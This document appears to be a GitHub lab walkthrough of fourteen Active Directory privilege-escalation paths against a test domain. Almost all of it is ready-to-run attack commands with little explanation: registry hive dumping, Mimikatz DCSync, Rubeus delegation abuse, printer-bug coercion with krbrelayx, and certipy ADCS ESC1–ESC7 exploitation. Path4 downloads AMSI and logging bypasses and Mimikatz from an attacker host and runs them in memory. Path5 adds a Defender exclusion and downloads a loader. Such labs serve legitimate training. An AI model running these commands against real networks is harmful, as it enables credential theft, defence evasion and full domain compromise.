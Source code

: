 # A-Part1: Path 1 to 7

### Path1: Backup Administrators Group
```sh
reg.py corp.local/backupops:Password2@192.168.52.130 backup -o '\\192.168.52.129\share'
```
![alt text](assets/attack102/bops1.png)<br>
```powershell
runas.exe /netonly /user:corp.local\backupops cmd.exe
reg save \\WIN-4E30GDH8UQ6\HKLM\sam \\192.168.52.130\Helpdesk\sam.hive
reg save \\WIN-4E30GDH8UQ6\HKLM\system \\192.168.52.130\Helpdesk\system.hive
reg save \\WIN-4E30GDH8UQ6\HKLM\security \\192.168.52.130\Helpdesk\security.hive
```
![alt text](assets/attack102/bops2.png)<br>
```sh
secretsdump.py -sam SAM.save -security SECURITY.save -system SYSTEM.save LOCAL
```
![alt text](assets/attack102/bops3.png)<br>


### Path2: WriteDACL abuse to DCSync
```powershell
Add-DomainObjectAcl -PrincipalIdentity helpdesk -Rights DCSync
###
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "helpdesk"}
```
![alt text](assets/attack102/path21.png)<br>
```powershell
Import-Module C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"lsadump::dcsync /user:corp\krbtgt" "exit"'
```
![alt text](assets/attack102/path22.png)<br>


### Path3: Computer Constrained delegation with protocol transition
```powershell
Import-Module C:\AD\Tools\Invoke-Mimi.ps1
Invoke-Mimi -Command '"sekurlsa::ekeys" "exit"'
Invoke-Mimi -Command '"token::elevate" "lsadump::sam" "exit"'
```

```powershell
C:\AD\Tools\Rubeus.exe s4u /user:pc01$ /aes256:44962d8aa4026aa5e13226cb01be532f517fcb02dead0328115ef0f202e77843 /msdsspn:http/WIN-4E30GDH8UQ6.corp.local /impersonateuser:Administrator /ptt

C:\AD\Tools\Rubeus.exe s4u /user:pc01$ /aes256:44962d8aa4026aa5e13226cb01be532f517fcb02dead0328115ef0f202e77843 /msdsspn:cifs/srv01.corp.local /impersonateuser:Administrator /altservice:http /ptt
```

### Path4: Credential Extraction 
```powershell
$sess = New-PSSession -ComputerName srv01.corp.local
Enter-PSSession -Session $sess
iex (iwr http://192.168.52.1/sbloggingbypass.txt -UseBasicParsing)
iex (iwr http://192.168.52.1/amsibypass.txt -UseBasicParsing)
iex ((New-Object Net.WebClient).DownloadString('http://192.168.52.1/Invoke-MimiEx.ps1'))
```

### Path5: Computer Unconstrained Delegation
```powershell
$sess = New-PSSession -ComputerName srv01.corp.local
Enter-PSSession -Session $sess

mkdir C:\Temp
powershell -c "Add-MpPreference -ExclusionPath C:\Temp"
curl -o C:\Temp\Loader.exe http://192.168.52.1/Loader.exe
```

```powershell
C:\AD\Tools\MS-RPRN.exe \\WIN-4E30GDH8UQ6.corp.local \\srv01.corp.local
```

```powershell
C:\Temp\Rubeus.exe monitor /targetuser:WIN-4E30GDH8UQ6$ /interval:5 /nowrap
```

### Path6: User Constrained Delegation with protocol transition
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:ldap_svc /password:Password3

C:\AD\Tools\Rubeus.exe s4u /user:ldap_svc /ticket: /msdsspn:http/WIN-4E30GDH8UQ6.corp.local /impersonateuser:Administrator /ptt
```
![alt text](assets/attack102/userCD1.png)<br>
![alt text](assets/attack102/userCD2.png)<br>


### Path7: User Unconstrained Delegation
```sh
dnstool.py -u 'corp.local\pparker' -p Password1 -r donotexist.corp.local -a add -t A -d 192.168.52.129 192.168.52.130

printerbug.py CORP/pparker:Password1@192.168.52.130 donotexist.corp.local
```
![alt text](assets/attack102/userUD1.png)<br>
![alt text](assets/attack102/userUD2.png)<br>

```sh
krbrelayx.py --krbsalt CORP.LOCALpparker --krbpass Password1 -dc-ip 192.168.52.130 
```
![alt text](assets/attack102/userUD3.png)<br>

```sh
export KRB5CCNAME=/home/kali/labs/mylab/dc.ccache
secretsdump.py -no-pass -k WIN-4E30GDH8UQ6.corp.local -just-dc-user administrator -just-dc-ntlm
```
![alt text](assets/attack102/userUD4.png)<br>


# B-Part2: Path 8 to 15 (ADCS )

### Path8: ESC1
```sh
certipy req -username csheldon@corp.local -password $pass -ca $CA -template DevelopmentCodeSigning  -upn administrator@corp.local -dc-ip $dc
```
![alt text](assets/attack102/esc1.png)<br>

### Path9: ESC2
```sh
certipy req -username helpdesk@corp.local -password YourS3cret -ca $CA -template esc2-A  -upn ballen@corp.local -dc-ip $dc
```
![alt text](assets/attack102/esc2.png)<br>

### Path10: ESC3
```sh
###csr1
certipy req -username helpdesk@corp.local -password YourS3cret -ca $CA -template ESC3-EA -dc-ip $dc
###csr2
certipy req -username helpdesk@corp.local -password YourS3cret -ca $CA -template ESC3-Users -on-behalf-of 'corp\itmanager' -pfx helpdesk.pfx -dc-ip $dc
```
![alt text](assets/attack102/esc3.png)<br>

### Path11: ESC2 and ESC3
```sh
###csr1
certipy req -username helpdesk@corp.local -password YourS3cret -ca $CA -template esc2-B -dc-ip $dc
###csr2
certipy req -username helpdesk@corp.local -password YourS3cret -ca $CA -template User -on-behalf-of 'corp\administrator' -pfx helpdesk.pfx -dc-ip $dc
```
![alt text](assets/attack102/esc2and3.png)<br>

### Path12: ESC4
```sh
### configure esc1
certipy template -username helpdesk@corp.local -password YourS3cret -template esc4 -save-old -dc-ip $dc
### esc1
certipy req -username helpdesk@corp.local -password YourS3cret -ca $CA  -template esc4 -upn administrator@corp.local -dc-ip $dc
```
![alt text](assets/attack102/esc4.png)<br>
```sh
certipy template -username helpdesk@corp.local -password YourS3cret -template esc4 -configuration esc4.json
```

### Path13: ESC7-A
![alt text](assets/attack102/esc7a1.png)<br>
```sh
certipy ca -ca $CA -add-officer csheldon -username csheldon@corp.local -password $pass -dc-ip $dc
```
![alt text](assets/attack102/esc7a2.png)<br>
![alt text](assets/attack102/esc7a3.png)<br>


### Path14: ESC7-B
```sh
###1
certipy req -username csheldon@corp.local -password $pass -ca $CA -template SubCA -upn administrator@corp.local -dc-ip $dc

###2
certipy ca -ca $CA -issue-request 55 -username csheldon@corp.local -password $pass -dc-ip $dc
```
![alt text](assets/attack102/esc7b1.png)<br>

```sh
certipy req -username csheldon@corp.local -password $pass -ca $CA -retrieve 55 -dc-ip $dc
```
![alt text](assets/attack102/esc7b2.png)<br>
